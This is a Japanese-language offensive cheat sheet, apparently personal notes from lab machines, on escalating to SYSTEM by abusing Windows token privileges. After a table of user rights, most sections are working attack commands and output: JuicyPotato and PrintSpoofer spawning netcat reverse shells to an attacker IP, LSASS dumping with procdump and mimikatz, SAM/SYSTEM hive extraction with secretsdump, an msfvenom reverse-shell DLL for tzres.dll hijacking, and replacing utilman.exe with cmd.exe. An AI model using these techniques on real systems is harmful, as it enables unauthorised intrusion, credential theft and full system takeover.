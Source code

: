 # Windows における権利と特権

# ユーザー権利の割り当て

これらの権限により、ユーザーはローカルまたはリモートでのログオン、ネットワークからのホストへのアクセス、サーバーのシャットダウンなどのタスクをシステム上で実行できるようになる

このマイクロソフトの記事 [User Rights Assignment](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment) では、Windows で設定できる各ユーザー権利と、各権利に適用されるセキュリティに関する考慮事項について書かれている

| 設定 [定数](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | 設定名                                                       | 標準割り当て                                            | 説明                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------------------------------------ |
| SeNetworkLogonRight                                          | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network) | Administrators, Authenticated Users                     | どのユーザーがネットワークからデバイスに接続できるかを決定する。これは、SMB、NetBIOS、CIFS、COM+ などのネットワーク プロトコルで必要 |
| SeRemoteInteractiveLogonRight                                | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | このポリシー設定は、リモート デスクトップ サービス接続を通じてリモート デバイスのログイン画面にアクセスできるユーザーまたはグループを決定する。ユーザーは特定のサーバーへのリモート デスクトップ サービス接続を確立できるが、同じサーバーのコンソールにログオンすることはできない |
| SeBackupPrivilege                                            | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) | Administrators                                          | このユーザー権利は、システムをバックアップする目的で、ファイル、ディレクトリ、レジストリ、およびその他の永続オブジェクトのアクセス許可をバイパスできるユーザーを決定する |
| SeSecurityPrivilege                                          | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) | Administrators                                          | このポリシー設定は、ファイル、Active Directory オブジェクト、レジストリ キーなどの個々のリソースに対してオブジェクト アクセス監査オプションを指定できるユーザーを決定する。これらのオブジェクトは、システム アクセス制御リスト (SACL) を指定する。このユーザー権利を割り当てられたユーザーは、イベント ビューアーでセキュリティ ログを表示およびクリアすることもできる |
| SeTakeOwnershipPrivilege                                     | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) | Administrators                                          | このポリシー設定は、Active Directory オブジェクト、NTFS ファイルとフォルダー、プリンター、レジストリ キー、サービス、プロセス、スレッドなど、デバイス内のセキュリティ保護可能なオブジェクトの所有権をどのユーザーが取得できるかを決定する |
| SeDebugPrivilege                                             | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) | Administrators                                          | このポリシー設定は、どのユーザーがプロセス (自分が所有していないプロセスであっても) にアタッチしたり、プロセスを開いたりできるかを決定する。アプリケーションをデバッグしている開発者には、このユーザー権利は必要ない。新しいシステム コンポーネントをデバッグする開発者には、このユーザー権利が必要。このユーザー権利により、機密性の高い重要なオペレーティング システム コンポーネントへのアクセスが提供される |
| SeImpersonatePrivilege                                       | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) | Administrators, Local Service, Network Service, Service | このポリシー設定は、どのプログラムがユーザーまたは別の指定されたアカウントになりすましてユーザーの代わりに動作することを許可するかを決定する |
| SeLoadDriverPrivilege                                        | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) | Administrators                                          | このポリシー設定は、どのユーザーがデバイス ドライバーを動的にロードおよびアンロードできるかを決定する。新しいハードウェア用の署名付きドライバーがデバイス上の driver.cab ファイルにすでに存在する場合、このユーザー権利は必要ない。デバイス ドライバーは高度な特権コードとして実行される |
| SeRestorePrivilege                                           | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) | Administrators                                          | このセキュリティ設定は、バックアップされたファイルとディレクトリを復元するときに、どのユーザーがファイル、ディレクトリ、レジストリ、その他の永続オブジェクトのアクセス許可をバイパスできるかを決定する。これにより、どのユーザーがオブジェクトの所有者として有効なセキュリティ プリンシパルを設定できるかが決まる |

`whoami /priv`で現在のユーザーに割り当てられているすべてのユーザー権限のリストが表示

アカウントの特権が`Disabled`でリストされている場合、それはアカウントに特定の特権が割り当てられていることを意味する。ただし、有効になるまでは、アクセス トークンで使用して、関連するアクションを実行することはできない

```powershell-session
PS C:\hatto> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

この記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる



# SeImpersonatePrivilege

`whoami /priv`などで `SeImpersonatePrivilege` がリストされている場合 `JuicyPotato` をしようすることで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用することができる

## JuicyPotato を使用した権限の昇格

これらの権限を使用して権限を昇格するには、まず `JuicyPotato.exe` バイナリをダウンロードし、これと `nc.exe` をターゲット サーバーにアップロードする。次に、ポート 8443 で Netcat リスナーを起動し、以下のコマンドを実行する。ここで、`-l` は COM サーバーのリスニング ポート、`-p` は起動するプログラム (cmd.exe)、`-a` は cmd.exe に渡される引数です。 `-t` は createprocess 呼び出し。以下では、`CreateProcessWithTokenW` 関数と `CreateProcessAsUser` 関数の両方を試行するようにツールに指示している。これらの関数には、それぞれ `SeImpersonate` 権限または `SeAssignPrimaryToken` 権限が必要

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> enable_xp_cmdshell
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.16.8 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)>          
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [11時55分02秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443       
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49702
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

## PrintSpoofer を使用した権限の昇格

JuicyPotato は、Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しない。ただし、`PrintSpoofer` と `RoguePotato` を使用すると、同じ権限を活用し、`NT AUTHORITY\SYSTEM` レベルのアクセスを取得できる

`-c` 引数を指定してツールを使用してコマンドを実行します。ここでは、`nc.exe` を使用してリバース シェルを生成します (Netcat リスナーがポート 8443 の攻撃ボックスで待機しています)。

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.8 8443 -e cmd"
output                                        
-------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege   

[+] Named pipe listening...                   

[+] CreateProcessAsUser() OK                  

NULL                                          

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [12時26分45秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49719
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



# SeDebugPrivilege

この特権を使用すると、他のプロセスのデバッグが許可され、メモリ内の読み書きが可能になる。この特権を使用して、ほとんどのアンチウイルスおよびホスト侵入防止ソリューションを回避できるさまざまなメモリインジェクション戦略を適用できる

## メモリのダンプ

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) を [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) から使用して、プロセスのメモリをキャプチャできる。具体的には、これはユーザーがシステムに正常にログインした後にユーザーの資格情報を保存する**Local Security Authority Subsystem Service (LSASS)**プロセスに適用できる

```cmd-session
C:\hatto> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

その後、このダンプをmimikatzに読み込んでパスワードを取得できる

```cmd-session
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp  # sekurlsa::minidump で lsass.dmp を Mimikatz にロードする
mimikatz # sekurlsa::logonpasswords      # ローカル管理者アカウントの NTLM ハッシュを取得
```

## RCE

`NT SYSTEM`のシェルを取得したい場合は、次の方法があります：

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://github.com/decoder-it/psgetsystem)

PIDの取得には `tasklist` で取得できる (主に `winlogon.exe`のPIDを取得して `c:\windows\system32\cmd.exe` を起動させる)

```powershell
PS> Import-module psgetsys.ps1 
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>    # -cmdargsは""にする
```



# SeTakeOwnershipPrivilege

この権限は`Active Directory object`, `NTFS file/folder`, `printers`, `registry keys`, `services`, `processes` などのセキュリティで保護されたオブジェクトの所有権をユーザに付与できる。管理者にはデフォルトで割り振られているが実際に標準ユーザーでこの権限が割り振られているアカウントに遭遇することはあまりない

つまり、権限がなくて参照できないファイルなどを参照できる権限を付与することができる

## 興味深いファイル

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## SeTakeOwnershipPrivilege を有効にする

権限が `Disabled` になっている場合 [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) を使用して権限を有効にできる

もしくはこの記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる

## ファイルの所有権の取得

[Takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows バイナリを使用してファイルの所有権を変更できる

`C:\Department Shares\Private\IT\cred.txt` の所有権を取得する

```powershell-session
C:\hatto> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\hatto".
```

## 所有権の変更の確認

```powershell-session
PS C:\hatto> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\hatto
```

## ファイルACLの変更

ファイルをまだ読み取れない可能性があるため、ファイルを読み取れるようにするには、[icacls](https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls) を使用してファイル ACL を変更する

```powershell-session
PS C:\hatto> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <権限を与えるユーザー名>:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```



# SeManageVolumePrivilege

SeManageVolumePrivilegeは、ボリュームメンテナンスタスクを実行するためのユーザーサービス権限を許可する。これにより、ディスク上のユーザー権限の割り当てを変更できるようになる

以下のエクスプロイトスクリプトをターゲットマシン上で実行する

[SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## DLL Hijacking

スクリプトを実行することで `C:`ドライブ内System32を含むの任意のファイルに書き込むことができる

msfvenomで `tzres.dll` とうリバースシェルを作成する。これは `systeminfo` コマンドを実行したときに呼び出されるdll

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=1337 -f dll -o tzres.dll
```

ターゲットマシンの `C:\Windows\System32\wbem\tzres.dll` にコピーしてリスナーを起動、 `systeminfo` を実行することでシェルを取得できる



# SeBackupPrivilege

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持つ。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できる。主に、レジストリからローカル管理者アカウントのパスワードハッシュを読み取るために使用され、その後、ハッシュを使用して「`psexec`」や「`wmiexec`」などのツールを使用できる(`Pass-the-Hash`)。

## 権限の悪用

### パスワードハッシュを取得する

```
reg save HKLM\SYSTEM c:\tmp\system
reg save HKLM\SAM C:\tmp\sam
```

### パスワードハッシュをdump

```
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```



# SeRestorePrivilege

この特権により、ファイルのアクセス制御リスト（ACL）に関係なく、任意のシステムファイルへの**書き込みアクセス**が許可される。これにより、サービスの**変更**、DLLハイジャックの実行、さまざまな他の技術の中で、イメージファイル実行オプションを介して**デバッガ**を設定などを行える。

## 権限の悪用

SeRestorePrivilege権限を悪用するスクリプトを使用する

[SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse.git) このリポジトリをクローンしてVisual Studioで構成をReleaseにしてビルドする

### リバースシェルを取得する

```
SeRestoreAbuse.exe "nc.exe <LHOST> <LPORT> -e powershell.exe"
```

## RDP による Utilman.exe の悪用

utilman.exe**は、**ユーザーがシステムにログインする前に、拡大鏡、ハイコントラスト テーマ*、*ナレーター*、*オンスクリーン キーボードなどのシステム アクセシビリティ オプションを構成できるように設計された組み込みの Windows アプリケーションで、Windows ログオン画面で `WIN + U`キーの組み合わせを発行することで起動される。アプリケーションは SYSTEM 権限で実行される。

### 権限が無効になっている場合

[EnableSeRestorePrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1) で権限を有効にする

```
EnableSeRestorePrivilege.ps1
```

これで `C:\Windows\System32` の書き込みアクセス権が得られる

### utilman.exeをcmd.exeに置き換える

```
move C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
move C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

### シェルを取得する

```
rdesktop <Target_IP>
```

RDPが機能するとWindowsのログイン画面が表示される。その画面で `Windows + U` を押すことでSYSTEMシェルを起動することができる。











